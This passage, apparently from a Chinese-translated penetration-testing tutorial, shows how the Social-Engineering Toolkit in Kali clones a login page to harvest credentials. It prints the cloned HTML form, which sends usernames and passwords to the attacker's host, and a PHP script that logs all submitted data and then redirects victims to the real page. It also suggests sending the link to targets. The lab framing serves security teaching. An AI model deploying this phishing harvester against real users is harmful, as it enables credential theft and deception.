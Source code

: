     现在我们拥有原始登录页面的一份精确副本。
    
1.  现在在里面输入一些用户名和密码，并点击`Login`。我们要尝试`harvester/test`。

2.  你会看到页面重定向到了原始的登录页面。现在，来到终端并输入收集器文件保存的目录，默认为 Kali 中的`/var/www/ html`：

    ```
    cd /var/www/html
    ```
    
3.  这里应该有名称为`harvester_{date and time}.txt `的文件。

4.  显示它的内容，我们会看到所有捕获的信息：

    ```
    cat harvester_2015-11-22 23:16:24.182192.txt
    ```
    
    ![](img/9-1-4.jpg)
    
    这就结束了，我们仅仅需要将连接发送给我们的目标，并让他们访问我们的伪造登录页面，来收集它们的密码。
    
### 工作原理

SET 在克隆站点的时候会创建三个文件：首先是`index.html`，这是原始页面的副本，并包含登录表单。如果我们查看 SET 在我们的 Kali 中的 `/var/www/html `创建的`index.html`的代码，我们会发现下面的代码：

```html
<form action="http://192.168.56.1/post.php" method=post> 
<br> 
Username: <input type=text name=username><br> 
Password: <input type=password name=password><br> 
<br><input type=submit value=Login><br> 
</form>
```

这里我们可以看到用户名和密码都发给了 192.168.56.1 （我们的 Kali 主机）的`post.php`，这是 SET 创建的第二个文件。这个文件所做的所有事情就是读取 POST 请求的内容并将它们写入`harvester_{date and time}.txt `文件。 SET 所创建的第三个文件储存由用户提交的信息。在向文件中写入数据之后，`<meta>`标签重定向到原始的登录页面，所以用户会认为他们输入了一些不正确的用户名或密码：

```php
<?php 
$file = 'harvester_2015-11-22 23:16:24.182192.txt'; 
file_put_contents($file, print_r($_POST, true), FILE_APPEND); 
?> 
<meta http-equiv="refresh" content="0; 
url=http://192.168.56.102/peruggia/index.php?action=login" 
/>
```
